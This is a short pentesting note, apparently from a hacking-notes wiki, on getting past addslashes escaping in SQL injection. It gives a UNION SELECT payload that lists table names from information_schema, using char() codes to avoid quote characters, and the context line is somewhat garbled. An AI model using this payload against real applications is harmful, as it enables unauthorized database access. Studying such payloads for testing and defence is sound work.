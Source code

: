 ```yaml
---
description: When the application, adds a / on the final of URL
---
```


# SQLI | Bypass addslashes

**Context:** But in the "" in Warning, a /-> "/" is added

{% content-ref url="../vulnerabilities/sqli/sqli-or-error-based.md" %}
[sqli-or-error-based.md](../vulnerabilities/sqli/sqli-or-error-based.md)
{% endcontent-ref %}

```
union select 1,2,table_name,4,5 from information_schema.tables where table_schema=char(xxx,xxx,xxx,xxx)
```

**Note:** Change the xxx to the values ​​corresponding to the chars of the table name string
